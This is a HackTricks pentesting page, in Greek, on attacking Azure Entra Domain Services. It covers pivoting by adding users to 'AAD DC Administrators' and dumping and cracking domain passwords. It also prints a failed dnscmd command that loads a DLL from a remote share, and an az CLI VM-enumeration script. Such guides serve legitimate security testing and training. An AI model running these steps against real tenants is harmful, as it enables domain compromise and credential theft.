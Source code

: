 # Az - Microsoft Entra Domain Services

{{#include ../../../../banners/hacktricks-training.md}}

## Υπηρεσίες Τομέα

Η Microsoft Entra Domain Services επιτρέπει την ανάπτυξη ενός Active Directory στο Azure χωρίς να χρειάζεται να διαχειρίζεστε Domain Controllers (στην πραγματικότητα δεν έχετε καν πρόσβαση σε αυτούς).

Ο κύριος στόχος της είναι να σας επιτρέψει να εκτελείτε παλιές εφαρμογές στο cloud που δεν μπορούν να χρησιμοποιήσουν σύγχρονες μεθόδους αυθεντικοποίησης, ή όπου δεν θέλετε οι αναζητήσεις καταλόγου να επιστρέφουν πάντα σε ένα τοπικό περιβάλλον AD DS.

Σημειώστε ότι για να συγχρονίσετε τους χρήστες που δημιουργούνται στο Entra ID (και δεν συγχρονίζονται από άλλους ενεργούς καταλόγους) στην υπηρεσία τομέα AD, πρέπει να **αλλάξετε τον κωδικό πρόσβασης του χρήστη** σε έναν νέο ώστε να μπορεί να συγχρονιστεί με το νέο AD. Στην πραγματικότητα, ο χρήστης δεν συγχρονίζεται από το Microsoft Entra ID στις Υπηρεσίες Τομέα μέχρι να αλλάξει ο κωδικός πρόσβασης.

> [!WARNING]
> Ακόμα και αν δημιουργείτε ένα νέο τομέα Active Directory, δεν θα μπορείτε να το διαχειριστείτε πλήρως (εκτός αν εκμεταλλευτείτε κάποιες κακορυθμίσεις), πράγμα που σημαίνει ότι από προεπιλογή, για παράδειγμα, δεν μπορείτε να δημιουργήσετε χρήστες απευθείας στο AD. Τους δημιουργείτε με **συγχρονίζοντας χρήστες από το Entra ID.** Μπορείτε να υποδείξετε να συγχρονίσετε όλους τους χρήστες (ακόμα και αυτούς που συγχρονίζονται από άλλους τοπικούς AD), μόνο τους χρήστες cloud (χρήστες που δημιουργούνται στο Entra ID), ή ακόμα και **να τους φιλτράρετε περισσότερο**.

> [!NOTE]
> Γενικά, λόγω της έλλειψης ευελιξίας στη ρύθμιση του νέου τομέα και του γεγονότος ότι οι AD είναι συνήθως ήδη τοπικοί, αυτή δεν είναι η κύρια ενσωμάτωση μεταξύ του Entra ID και του AD, αλλά είναι ακόμα ενδιαφέρον να γνωρίζετε πώς να το παραβιάσετε.

### Pivoting

Τα μέλη της ομάδας **`AAD DC Administrators`** έχουν παραχωρηθεί τοπικά δικαιώματα διαχειριστή σε VMs που είναι συνδεδεμένα στον τομέα που διαχειρίζεται (αλλά όχι στους domain controllers) επειδή προστίθενται στην τοπική ομάδα διαχειριστών. Τα μέλη αυτής της ομάδας μπορούν επίσης να χρησιμοποιούν **Remote Desktop για να συνδεθούν απομακρυσμένα σε VMs που είναι συνδεδεμένα στον τομέα**, και είναι επίσης μέλη των ομάδων:

- **`Denied RODC Password Replication Group`**: Αυτή είναι μια ομάδα που καθορίζει χρήστες και ομάδες των οποίων οι κωδικοί πρόσβασης δεν μπορούν να αποθηκευτούν σε RODCs (Read-Only Domain Controllers).
- **`Group Policy Creators Owners`**: Αυτή η ομάδα επιτρέπει στα μέλη να δημιουργούν Ομάδες Πολιτικής στον τομέα. Ωστόσο, τα μέλη της δεν μπορούν να εφαρμόσουν πολιτικές ομάδας σε χρήστες ή ομάδες ή να επεξεργαστούν υπάρχουσες GPOs, οπότε δεν είναι και τόσο ενδιαφέρον σε αυτό το περιβάλλον.
- **`DnsAdmins`**: Αυτή η ομάδα επιτρέπει τη διαχείριση των ρυθμίσεων DNS και έχει κακοποιηθεί στο παρελθόν για [να κλιμακώσει προνόμια και να παραβιάσει τον τομέα](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html?highlight=dnsadmin#dnsadmins), ωστόσο μετά την δοκιμή της επίθεσης σε αυτό το περιβάλλον διαπιστώθηκε ότι η ευπάθεια έχει διορθωθεί:
```text
dnscmd TDW52Y80ZE26M1K.azure.training.hacktricks.xyz /config /serverlevelplugindll \\10.1.0.6\c$\Windows\Temp\adduser.dll

DNS Server failed to reset registry property.
Status = 5 (0x00000005)
Command failed:  ERROR_ACCESS_DENIED     5    0x5
```
Σημειώστε ότι για να παραχωρηθούν αυτές οι άδειες, μέσα στο AD η ομάδα **`AAD DC Administrators`** γίνεται μέλος των προηγούμενων ομάδων, και επίσης η GPO **`AADDC Computers GPO`** προσθέτει ως Τοπικούς Διαχειριστές όλα τα μέλη της ομάδας τομέα **`AAD DC Administrators`**.

Η μετάβαση από το Entra ID σε ένα AD που δημιουργήθηκε με τις Υπηρεσίες Τομέα είναι απλή, απλά προσθέστε έναν χρήστη στην ομάδα **`AAD DC Administrators`**, αποκτήστε πρόσβαση μέσω RDP σε οποιοδήποτε/όλες τις μηχανές στον τομέα και θα μπορείτε να κλέψετε δεδομένα και επίσης **να συμβιβάσετε τον τομέα.**

Ωστόσο, η μετάβαση από τον τομέα στο Entra ID δεν είναι τόσο εύκολη, καθώς τίποτα από τον τομέα δεν συγχρονίζεται στο Entra ID. Ωστόσο, πάντα ελέγξτε τα μεταδεδομένα για όλες τις VM που έχουν προστεθεί, καθώς οι ανατεθειμένες διαχειριζόμενες ταυτότητές τους μπορεί να έχουν ενδιαφέρουσες άδειες. Επίσης, **εξαγάγετε όλους τους κωδικούς πρόσβασης των χρηστών από τον τομέα** και προσπαθήστε να τους σπάσετε για να συνδεθείτε στο Entra ID / Azure.

> [!NOTE]
> Σημειώστε ότι στο παρελθόν έχουν βρεθεί άλλες ευπάθειες σε αυτό το διαχειριζόμενο AD που επέτρεπαν την παραβίαση των DCs, [όπως αυτή](https://www.secureworks.com/research/azure-active-directory-domain-services-escalation-of-privilege?utm_source=chatgpt.com). Ένας επιτιθέμενος που παραβιάζει το DC θα μπορούσε πολύ εύκολα να διατηρήσει την επιμονή χωρίς οι διαχειριστές του Azure να το παρατηρήσουν ή ακόμη και να είναι σε θέση να το αφαιρέσουν.

### Enumeration
```bash
# Get configured domain services domains (you can add more subs to check in more subscriptions)
az rest --method post \
--url "https://management.azure.com/providers/Microsoft.ResourceGraph/resources?api-version=2021-03-01" \
--body '{
"subscriptions": [
"0ce1297c-9153-425d-3229-f51093614377"
],
"query": "resources | where type == \"microsoft.aad/domainservices\"",
"options": {
"$top": 16,
"$skip": 0,
"$skipToken": ""
}
}'

# Get domain configuration
az rest --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/<domain-name>?api-version=2022-12-01&healthdata=true"
## e.g.
az rest --url "https://management.azure.com/subscriptions/0ce1297c-9153-425d-3229-f51093614377/resourceGroups/entra-domain-services/providers/Microsoft.AAD/DomainServices/azure.training.hacktricks.xyz?api-version=2022-12-01&healthdata=true"

# Based on the VNet assigned to the domain services, you can enumerate the VMs in the domain

subscription_id="0ce1297c-9153-425d-3229-f51093614377"
vnet_name="aadds-vnet"

# Retrieve all VMs in the subscription
vm_list=$(az vm list --subscription "$subscription_id" --query "[].{Name:name, ResourceGroup:resourceGroup}" --output tsv)

# Iterate through each VM to check their VNet connection
echo "VMs connected to VNet '$vnet_name':"
while IFS=$'\t' read -r vm_name resource_group; do
nic_ids=$(az vm show --subscription "$subscription_id" --name "$vm_name" --resource-group "$resource_group" --query "networkProfile.networkInterfaces[].id" --output tsv)

for nic_id in $nic_ids; do
subnet_id=$(az network nic show --ids "$nic_id" --query "ipConfigurations[0].subnet.id" --output tsv)

if [[ $subnet_id == *"virtualNetworks/$vnet_name"* ]]; then
echo "VM Name: $vm_name, Resource Group: $resource_group"
fi
done
done <<< "$vm_list"
```
{{#include ../../../../banners/hacktricks-training.md}}
